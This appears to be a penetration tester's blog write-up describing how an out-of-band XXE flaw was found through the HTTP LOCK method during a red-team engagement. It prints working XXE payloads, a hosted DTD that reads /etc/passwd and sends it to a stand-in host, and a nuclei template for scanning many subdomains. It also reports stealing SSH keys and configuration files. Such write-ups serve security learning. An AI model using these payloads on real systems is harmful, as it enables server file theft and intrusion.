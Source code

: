 ```yaml
---
layout: post
title: Exploiting Out-Of-Band XXE on Wildfire
date: 2021-02-19
summary: Data Exfiltration using XXE via LOCK HTTP Method
categories: Web Security
tags: [Bugs, Write-Ups, Web Security]
---
```


Hi Everyone 

In this blog ,i will cover one of the intresting vulnerability **Out-Of-Band XXE via HTTP LOCK Method** that i found during the Red Teaming Engagement in a `Product Based Company` and exploited the vulnerability at a **Large Scale**.

<p align="center">
  <img src="/images/xxe/xxe1.png">
</p>

**How it all started ?**

  Under the Red Teaming Activty there are many category such as Cyber Threat Intelligence, Internal Adversary Simulation, External Adversary Simulation, Social Engineering,Deep Web / Dark Web Exposure, OSINT, Phising etc,.
  
<p align="center">
  <img src="/images/xxe/xxe2.png">
</p>
  
  This vulnerability was found during the  **External Adversary Simulation** Category, where we used to test for Web Application and Network Assets to find **Critical Server Side** bugs so that we can exfiltrate data to get an inital foothold.
  
**Let's Dive Deep into it!**

* There were hundreds of login pages under the web application pentesting part and credentials that was obtained from Deep / Dark Web Exposure were not working :(

<p align="center">
  <img src="https://media.giphy.com/media/p52j8LBZGNsMJPqqVF/giphy.gif">
</p>

* Found many login pages which was developed by the company to their customers to handle the data between both the parties.

**Step 1:** Intercept the login request using client side proxy like Burp Suite as shown below.

<p align="center">
  <img src="/images/xxe/xxe3.png">
</p>

**Step 2:** Started to check for HTTP Methods enabled in the application by using **OPTIONS**

<p align="center">
  <img src="/images/xxe/xxe4.png">
</p>

From the above image , it can be observed that there is no reaction from the application , got the same response we see from **GET** method.

<p align="center">
  <img src="https://media.giphy.com/media/3og0INyCmHlNylks9O/giphy.gif">
</p>

**Step 3:** When i removed `login.jsp` and supplied a notexisting value (test) it showed up the different HTTP Methods that are allowed in the application.

<p align="center">
  <img src="/images/xxe/xxe05.png">
</p>

Note : The allowed methods are OPTIONS, MKCOL, PUT, LOCK.

<p align="center">
  <img src="https://media.giphy.com/media/jchcqpyTpIki4/giphy.gif">
</p>

**Step 4:** Tried **PUT** method and it returned `403 forbidden error`, but when i tried **LOCK** method it showed up some **XML** data as output as shown below.

<p align="center">
  <img src="/images/xxe/xxe06.png">
</p>

**Step 5:** Started to test for different kinds of XXE , ended up with OOB-XXE with basic payload as shown below.

```xml
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://youripaddress.com"> %xxe; ]>
```

<p align="center">
  <img src="/images/xxe/xxe7.png">
</p>

Note: We got both the **HTTP** and **DNS** hit from the server.

**Step 6:** Since it is an `Out-Of-Band XXE` , follow the below steps to set-up the environment.

**Note :** We need to host the DTD file on a web server. Here, we used a simple web server on the cloud and pointed the domain `yourdomainname.com` to the server’s public IP address and hosted the file `exploited.dtd` on the server.

Contents of `exploited.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'file:///%file;'>">
```

The request body send to the vulnerable URL:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://yourdomainname.com/exploitd.dtd">
%xxe;
%ext;
]>
<foo><u>
&exfil;
</u></foo>
```

<p align="center">
  <img src="/images/xxe/xxe8.png">
</p>

**Step 7:** Now the fun begins , we were able to exfiltrate and read different directory files and sensitive information such as **backup file, configuration file, ssh keys and access logs** etc,.

<p align="center">
  <img src="/images/xxe/xxe9.png">
</p>

<p align="center">
  <img src="/images/xxe/xxe010.png">
</p>

<p align="center">
  <img src="https://media.giphy.com/media/3og0ILLVvPp8d64Jd6/giphy.gif">
</p>

<p align="center"><strong>Exploiting the Flaw in Wildfire</strong></center>

* Since there is a huge number of subdomains , we wrote a nuclei template to detect this **OOB-XXE** as shown below.

```yaml
id: xxe-oob

info:
  name: OOB-XXE
  author: dhiyaneshDk
  severity: high

requests:
  - raw: 
      - |
        LOCK /xxxx/test HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Connection: close
        Upgrade-Insecure-Requests: 1
        Cache-Control: max-age=0
        Content-Length: 178
        
        <?xml version="1.0"?>
        <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY % xxe SYSTEM "http://yourdomainname.com/exploitd.dtd">
        %xxe;
        %ext;
        ]>
        <foo><u>
        &exfil
        </u></foo>

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 500
      - type: word
        words:
          - '/root:x:0:0:root:/root:/bin/bash'
        part: body
```

<p align="center">
  <img src="/images/xxe/xxe11.png">
</p>

* There were around **36+ Instance** which was **Vulnerable** to XXE and cross checked all the instance manually.

<p align="center">
  <img src="https://media.giphy.com/media/DffShiJ47fPqM/giphy.gif">
</p>

**Impact :** 

The XXE flaw can allow an attacker to turn the XML parser into a proxy which allows local and remote content to be served on request. It allows an attacker to:
* Read files on the application server
* Interact with any back-end or external systems that the application itself can access
* View configuration files present in the system.

**Refernece**

[Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)
[Advanced XXE Exploitation](https://gosecure.github.io/xxe-workshop/)
[A Deep Dive into XXE Injection](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)


Kudos to all my members [Herane Malhotra](https://www.linkedin.com/in/herane-malhotra007/), [Lokendra Singh Rawat](https://www.linkedin.com/in/lokendrasinghrawat/), [Prashant Kumar](https://linkedin.com/in/notsoshant) worked during the assessment.

<p align="center">
  <img src="https://media.giphy.com/media/l3V0F3M2nJKxt3I2Y/giphy.gif">
</p>

Thanks a lot for reading :)
